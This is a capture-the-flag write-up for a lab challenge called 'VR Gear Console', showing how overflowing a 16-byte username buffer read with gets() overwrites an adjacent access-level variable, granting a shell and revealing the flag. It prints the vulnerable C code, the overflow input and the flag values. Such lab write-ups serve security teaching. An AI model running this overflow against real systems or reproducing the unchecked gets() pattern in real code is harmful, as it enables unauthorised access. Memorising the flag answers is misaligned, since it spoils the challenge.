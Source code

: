 ## VR Gear Console - 95

### Description

Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/1e50bd93be07ea1bca65a1a071e18eef

### Hint

  - What happens if you read in more characters than the length of the username buffer?
  - You should look at an ascii table to see what character you need to choose.
  - Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
  - "cat file - | vrgearconsole " will keep the pipe open for commands.

### Write up

```c
int accessLevel = 0xff;
char username[16];
char password[32];
printf("Username (max 15 characters): ");
gets(username);
printf("Password (max 31 characters): ");
gets(password);
```

The program not limits the length of user input, so we can overflow `username` to change `accessLevel`

```c
else if (access < 0x30) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
```

We want `accessLevel` be less than 0x30. I used *(0x2a) charater.

    $ ./vrgearconsole
    ...
    Username (max 15 characters): aaaaaaaaaaaaaaaa*
    Password (max 31 characters): a
    Your access level is: 0x0000002a
    Admin access granted!
    The flag is in "flag.txt".
    $ cat flag.txt
    5a9aeea545615089851dd6a9b57a3139

> f6f01bf0649b5aa5ec299bb51c8f8db4
